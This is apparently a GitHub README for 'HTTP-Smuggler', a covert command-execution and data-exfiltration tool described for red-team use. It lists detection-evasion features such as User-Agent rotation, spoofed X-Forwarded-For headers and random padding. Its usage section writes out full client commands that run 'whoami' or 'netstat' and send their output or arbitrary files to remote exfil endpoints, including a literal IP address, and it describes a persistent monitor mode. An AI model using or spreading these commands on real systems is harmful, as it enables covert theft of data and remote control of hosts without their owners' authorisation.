 # HTTP-Smuggler

![Python](https://img.shields.io/badge/python-3.6%2B-blue)
![License](https://img.shields.io/badge/license-MIT-green)
![Platform](https://img.shields.io/badge/platform-windows%20%7C%20linux%20%7C%20macos-lightgrey)

Covert HTTP smuggling tool for stealthy data exfiltration and command execution, specifically optimized for reliable Remote Code Execution (RCE) operations. The agent evades detection through chunked encoding and traffic spoofing techniques while maintaining robust command-and-control connectivity. Designed for red team engagements, it supports both immediate task execution and persistent monitoring modes. The Flask server securely collects and isolates payloads with proper logging for operational security.

## Features

- **Stealthy Data Exfiltration**: Files are transferred using chunked encoding and base64 obfuscation
- **Command Execution**: Remote command execution with results exfiltrated to server
- **Monitor Mode**: Repeated command execution at specified intervals
- **Multiple Delivery Options**:
  - Python script (cross-platform)
  - Standalone Windows executable (client.exe)
- **Evasion Techniques**:
  - Random User-Agent rotation
  - IP spoofing via X-Forwarded-For
  - Request size variation with random padding
  - Randomized delay between requests
- **Server Component**: Flask-based receiver with proper data handling

## Components

### Client Options
1. **Python Script (`client.py`)**
   - Cross-platform (Windows/Linux/macOS)
   - Requires Python environment

2. **Standalone Executable (`client.exe`)**
   - Windows-only compiled version
   - Same command structure as Python script
   - No Python installation required

### Server (`server.py`)
- Flask-based receiver endpoint
- Handles both command output and file uploads
- Stores received data with timestamps
- Includes basic security measures

## Installation

1. Clone the repository:
   ```bash
   git clone https://github.com/Mattb709/HTTP-Smuggler.git
   cd HTTP-Smuggler
   ```

2. For Python version, install dependencies:
   ```bash
   pip install flask requests
   ```

## Usage

### Server Setup
```bash
python server.py
```

### Client Operations

**Using Python script:**
```bash
python client.py -c "whoami" -s http://your-server.com/exfil
```

**Using Windows executable:**
```cmd
client.exe -f newtest.txt -s http://142.134.220.83:80/exfil
```

**Execute a single command:**
```bash
python client.py -c "whoami" -s http://your-server.com/exfil
# OR
client.exe -c "whoami" -s http://your-server.com/exfil
```

**Exfiltrate a file:**
```bash
python client.py -f /path/to/file -s http://your-server.com/exfil
# OR
client.exe -f C:\path\to\file -s http://your-server.com/exfil
```

**Monitor mode (repeated execution):**
```bash
python client.py -c "netstat -ant" -s http://your-server.com/exfil -m -t 5
# OR
client.exe -c "netstat -ant" -s http://your-server.com/exfil -m -t 5
```
(Executes every 5 minutes)

## Options

| Flag | Description                                  | Required |
|------|----------------------------------------------|----------|
| -c   | Command to execute                           | Optional |
| -f   | File to exfiltrate                           | Optional |
| -s   | Server URL (default: http://mydomain.com/exfil) | No       |
| -m   | Enable monitor mode                          | No       |
| -t   | Time interval in minutes for monitor mode    | With -m  |

*Note: Options work identically in both Python script and compiled executable versions*

## Legal Disclaimer

This tool is provided for educational and authorized testing purposes only. The author is not responsible for any misuse or damage caused by this software. Always obtain proper authorization before testing any systems.

## License

MIT License - See [LICENSE](LICENSE) for details.
